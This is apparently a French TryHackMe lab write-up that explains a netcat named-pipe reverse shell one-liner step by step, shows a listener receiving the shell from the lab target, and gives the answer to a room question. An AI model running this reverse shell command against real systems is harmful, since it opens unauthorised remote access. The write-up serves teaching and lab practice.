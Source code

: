 > Tous les ports peuvent être utilisés avec netcat
{: .prompt-info}

#### Gagner un accès à un reverse shell 

Bon alors moi j'utilise un outil très connu pour les reverse shells qui a été fait par le 1er de TryHackMe, je parle bien de [0day](https://tryhackme.com/p/0day) il a fait ce site : [revshells.com](https://www.revshells.com/)

Et avec ça on peut faire facilement des reverse shells selon la machine qui se présente à nous.

Mais maintenant nous allons comprendre une commande typique comme celle-ci nommée **pipe reverse shell** :

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

Explication de ce payload :
- `rm -f /tmp/f` cette commande supprime totalement le fichier nommé `f` dans /tmp
- `mkfifo /tmp/f` cette commande crée un canal nommé, ou FIFO (premier entré, premier sorti), dans /tmp/f. Les canaux nommés permettent une communication bidirectionnelle entre les processus. Dans ce contexte, il agit comme un canal d'entrée et de sortie
- `cat /tmp/f` cette commande lit les données du canal nommé. Il attend les entrées qui peuvent être envoyées via le canal.
- `| bash -i 2>&1` ce qu'allait afficher la commande avant de cat est redirigé vers une instance bash (bash -i) qui permettra à l'attaquant d'exécuter des commandes. Le `2>&1` redirige l'erreur standard vers la sortie standard, garantissant que les messages d'erreur sont renvoyés à l'attaquant.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` c'est là que rentre en jeu notre `netcat` mis en place tout à l'heure, donc **nc** redirige l'output vers notre IP en tant qu'attaquant et le port qu'on avait mis en place où notre listener attend toujours
- `>/tmp/f` cette dernière partie renvoie la sortie des commandes dans le canal nommé, permettant une communication bidirectionnelle

#### Comment l'attaquant reçoit le shell ?

Une fois la commande précédente exécutée, il faut qu'on retourne sur notre terminal avec netcat qui nous attend

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

Et si il y a quelque chose c'est que ça a marché et comme nous pouvons le voir, notre command line n'est pas la même qu'au début `target@tryhackme:~$`

---

**What type of shell allows an attacker to execute commands remotely after the target connects back?**

**Réponse :** `Reverse Shell`
